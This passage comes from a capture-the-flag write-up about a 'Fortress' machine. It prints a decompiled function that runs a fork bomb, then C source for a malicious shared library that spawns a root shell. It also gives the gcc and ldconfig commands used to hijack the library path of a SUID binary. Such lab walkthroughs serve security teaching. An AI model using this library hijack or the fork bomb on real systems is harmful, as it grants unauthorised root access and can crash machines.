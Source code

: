 We see `sym.foo`. Decompiling the function ...

```cpp
void sym.foo(void)

{
    sym.imp.puts(0x2000);
    sym.imp.sleep(2);
    sym.imp.system("sleep 2 && func(){func|func& cat /dev/urandom &};func");
    sym.imp.system("sleep 2 && func(){func|func& cat /dev/urandom &};func");
    sym.imp.system("sleep 2 && func(){func|func& cat /dev/urandom &};func");
    sym.imp.system("sleep 2 && func(){func|func& cat /dev/urandom &};func");
    sym.imp.system("sleep 2 && func(){func|func& cat /dev/urandom &};func");
    return;
}
```

We see that it `cat`s stuff from `/dev/urandom` which breaks our shell. If we can hijack this `libfoo.so`, we might be able to get a root shell, making use of the SUID bit of `/opt/bt`. To do that, we create our own `libfoo.so` and make `/opt/bt` use that instead of the current `libfoo.so`. First, we create write the code.

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void foo(){
	setuid(0);
	setgid(0);
	system("/bin/bash -p");
}
```

Note that the function name needs to be the same `foo()` as called in `/opt/bt`. We then compile it into a shared object.

```sh
gcc -c foo.c -fPIC
gcc -shared foo.o -o libfoo.so
```

Looking at the original `libfoo.so`, we own it so we can replace it with our new `libfoo.so`, run `/opt/bt`, and get a root shell. This, however, is [another unintended part](https://belikeparamjot.medium.com/unintended-root-s-on-fortress-d6fa78d4a978). I tried `export LD_LIBRARY_PATH=/path/to/fake/libfoo.so` but that doesn't work.

Looking up "linux set library path", I found that [ldconfig can be used to change library paths](https://www.heelpbook.net/2016/setting-library-path-in-linux/). Following [GTFObins](https://gtfobins.github.io/gtfobins/ldconfig/#limited-suid) I put the malicious `libfoo.so` in `/tmp/privesc` and ran the following.

```
j4x0n@fortress:/tmp/privesc$ echo "/tmp/privesc/" > conf
j4x0n@fortress:/tmp/privesc$ ldconfig.real -f /tmp/privesc/conf
j4x0n@fortress:/tmp/privesc$ /opt/bt
```

With that, we should have a shell as root.
